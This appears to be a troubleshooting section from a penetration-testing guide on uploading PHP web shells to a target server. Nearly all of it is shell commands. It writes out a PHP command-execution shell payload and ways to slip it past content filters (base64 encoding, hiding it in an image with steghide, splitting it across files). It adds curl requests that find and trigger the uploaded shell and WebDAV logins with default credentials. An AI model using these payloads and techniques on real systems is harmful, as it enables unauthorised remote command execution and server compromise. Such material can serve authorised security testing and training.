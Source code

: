 
## ⚠️ Common Pitfalls and Troubleshooting

### Issue 1: Upload Successful but File Not Accessible
**Symptoms:** File uploads without errors but returns 404 when accessed
**Solutions:**
```bash
# Check file permissions and ownership
ls -la /uploaded/files/directory/

# Try different access paths
curl http://target.com/uploads/shell.php
curl http://target.com/files/shell.php  
curl http://target.com/upload/shell.php

# Test with different HTTP methods
curl -X GET http://target.com/uploads/shell.php
curl -X POST http://target.com/uploads/shell.php
```

### Issue 2: File Gets Renamed or Modified
**Symptoms:** Uploaded files have different names or content
**Solutions:**
```bash
# Check for auto-renaming patterns
# Original: shell.php → Renamed: shell_1234.php
# Look for timestamp or hash additions

# Use WebDAV if available (bypasses renaming)
curl -X PUT -T shell.php http://target.com/webdav/shell.php

# Try directory listing to find actual filename
curl -X PROPFIND http://target.com/webdav/
```

### Issue 3: Content Filtering Blocks Upload
**Symptoms:** Upload fails with content validation errors
**Solutions:**
```bash
# Encode malicious payload
echo '<?php system($_GET["cmd"]); ?>' | base64

# Use steganographic hiding
steghide embed -cf image.jpg -ef shell.php

# Split payload across multiple files
echo '<?php ' > part1.php
echo 'system($_GET["cmd"]); ?>' > part2.php
```

### Issue 4: WebDAV Authentication Issues  
**Symptoms:** 401 Unauthorized or 403 Forbidden responses
**Solutions:**
```bash
# Try different authentication methods
davtest -auth user:pass -url http://target/webdav/
curl -u user:pass -X OPTIONS http://target/webdav/

# Test for default credentials
davtest -auth admin:admin -url http://target/webdav/
davtest -auth guest:guest -url http://target/webdav/
```

---